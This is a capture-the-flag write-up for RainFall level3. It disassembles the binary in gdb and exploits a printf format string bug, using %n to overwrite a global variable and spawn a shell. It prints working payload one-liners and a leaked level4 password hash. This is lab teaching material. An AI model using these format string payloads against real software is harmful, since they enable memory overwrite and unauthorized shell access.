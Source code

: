 # Level 3

Once logged in, you will see a binary `level3`.

```
[???] $ ssh level3@localhost -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level3@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$ ls
level3
```

Let's run this and see what this does.

```
level3@RainFall:~$ ./level3

```

This one does the same behavior as level2.

```
level3@RainFall:~$ ./level3
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level3@RainFall:~$
```

Now let's take a look at the binary.

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   ebp
   0x0804851b <+1>:     mov    ebp,esp
   0x0804851d <+3>:     and    esp,0xfffffff0
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

Let's take a look at the function `v`.

```
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218
   0x080484ad <+9>:     mov    eax,ds:0x8049860
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:    lea    eax,[ebp-0x208]
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    eax,[ebp-0x208]
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    eax,ds:0x804988c
   0x080484df <+59>:    cmp    eax,0x40
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    eax,ds:0x8049880
   0x080484e9 <+69>:    mov    edx,eax
   0x080484eb <+71>:    mov    eax,0x8048600
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
```

On line `<+59>`, if a value stored in eax is stored 0x40 is not equal, it will jump to `<v+116>`, otherwise `fwrite` and `system` function will be executed.

Below are the strings stored in the address relevant to the `fwrite` and `system`:
```
gdb-peda$ x/s 0x8048600
0x8048600:       "Wait what?!\n"
gdb-peda$ x/s 0x804860d
0x804860d:       "/bin/sh"
```

In order to exploit this program, a "format string vulnerability" will be used, as the function `printf` is used. But what is `format string vulnerability` and why all of the sudden `printf` is mentioned?

This [video](https://www.youtube.com/watch?v=0WvrSfcdq1I) does a great job at explaining how a format string vulnerability is exploited.

On line `<+54>`, we can see the value `0x40` is compared with the value in the address `0x804988c`, the variable `m`.

```
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
```

If we try to pass in `%s` to the string format, it cases a segmentation fault.
```
level3@RainFall:~$ ./level3
%s
Segmentation fault (core dumped)
```

What if we pass `%x` into the input?

```
level3@RainFall:~$ ./level3
%x
200
```

As explained from above, if format string is passed into the variable, we can easily get the address of the stack.

```
level3@RainFall:~$ echo "%x %x %x %x" | ./level3
200 b7fd1ac0 b7ff37d0 25207825
```

The goal of this level is to find an offset where we reach the address of the variable we want to modify, so we need to see in which address our buffer is written.

```
$ echo "AAAA %x %x %x %x %x %x" | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
````

We can see the offset of `AAAA` is 4 pointers (16 bytes), but now we need to change this to the address of `m`.

Lastly, we need to change the content of the variable m. Remember, the global variable `m` needs to have a size of 64. We accomplish this by using the `%n` modifier available in `printf`. This modifier sets the variable referenced by a provided pointer in arguments (or not provided in our case) to the number of characters printed so far.

In the following Python we print 64 characters and then put the `%n` with the `4$` modifier that tells `printf` to use the "fourth argument passed in". (This fourth argument isn't really passed in, but the program doesn't know that as those errors are caught in compile-time.)

```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' ; cat -) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

One interesting trick to try with this exploit: you can move around which `printf` argument it looks at by moving the exploit address around by multiples of 4, so the following exploits all work:

```
(python -c 'print "A" * 0 + "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' ; cat -) | ./level3
(python -c 'print "A" * 4 + "\x8c\x98\x04\x08" + "A" * 56 + "%5$n"' ; cat -) | ./level3
(python -c 'print "A" * 8 + "\x8c\x98\x04\x08" + "A" * 52 + "%6$n"' ; cat -) | ./level3
```
